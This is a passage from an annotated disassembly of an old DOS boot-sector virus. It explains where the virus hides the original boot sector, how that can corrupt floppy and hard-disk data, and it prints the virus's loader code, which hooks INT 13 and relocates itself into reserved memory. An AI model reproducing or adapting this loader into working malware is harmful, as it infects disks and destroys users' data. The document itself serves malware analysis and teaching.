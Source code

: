 There is nothing special about the holding sector -- it appears to be a sector deep in the files area of the floppy. If the floppy begins to fill up, this sector 
could get over-written corrupting the boot process. The floppy will no longer be bootable, but no file damage will occur. If the virus infects a floppy that is 
almost filled up, it will blindly write the bootsector over any data stored in the holding sector. In this case, file damage does occur.

On fixed-disks, the holding place is cylinder 0, sector 7, head 0, which is near the end of the root directory. If the fixed-disk has more than 96 entries in the 
root directory, the same kind of corruption will occur.

## The Loader 

```
;-----------------------------------------------------------------
; Loader
;-----------------------------------------------------------------
; Executes on bootup
00A1: 33 C0             XOR     AX,AX                   ; Set DS to ...
00A3: 8E D8             MOV     DS,AX                   ; ... system segment
00A5: FA                CLI                             ; No interrupts through here
00A6: 8E D0             MOV     SS,AX                   ; Set a temporary ...
00A8: BC 00 7C          MOV     SP,$7C00                ; ... stack 
00AB: FB                STI                             ; Interrupts can happen now
00AC: A1 4C 00          MOV     AX,[DS:$004C]           ; Save ...
00AF: A3 09 7C          MOV     [DS:$7C09],AX           ; ... original ...
00B2: A1 4E 00          MOV     AX,[DS:$004E]           ; ... INT 13 ...
00B5: A3 0B 7C          MOV     [DS:$7C0B],AX           ; ... vector.
00B8: A1 13 04          MOV     AX,[DS:$0413]           ; *6 Number of K bytes in free memory
00BB: 48                DEC     AX                      ; Reserve ...
00BC: 48                DEC     AX                      ; ... 2K for virus (and buffer)
00BD: A3 13 04          MOV     [DS:$0413],AX           ; New number of available K bytes
00C0: B1 06             MOV     CL,$06                  ; Convert K byte number ...
00C2: D3 E0             SHL     AX,CL                   ; ... to segment address
00C4: 8E C0             MOV     ES,AX                   ; MOVSB destination: virus segment
00C6: A3 0F 7C          MOV     [DS:$7C0F],AX           ; Store virus segment in our area
00C9: B8 15 00          MOV     AX,$0015                ; Offset to new INT13 handle
00CC: A3 4C 00          MOV     [DS:$004C],AX           ; New INT13 offset ...
00CF: 8C 06 4E 00       MOV     [DS:$004E],ES           ; ... and segment
00D3: B9 B8 01          MOV     CX,$01B8                ; Bytes in virus
00D6: 0E                PUSH    CS                      ; DS points to ...
00D7: 1F                POP     DS                      ; ... segment with virus code
00D8: 33 F6             XOR     SI,SI                   ; Offsets are both ...
00DA: 8B FE             MOV     DI,SI                   ; ... zero
00DC: FC                CLD                             ; Moving forward
00DD: F3 A4             REPZ    MOVSB                   ; Move virus into top of memory
00DF: 2E FF 2E 0D 00    JMP     FAR [CS:$000D]          ; Continue with next instruction in
                                                        ; new segment.
```

Now we come to 00A1 -- the destination of the jumps in the first few bytes of the program. Remember that the computer is booting up at this point, and the virus 
has just been loaded into memory at 0000:7C00. The CS register has been re-oriented so that this instruction is executed at 07C0:00A1. First the virus suspends 
all interrupts and establishes a temporary stack. Then the original INT13 vector is saved in the virus's data block.
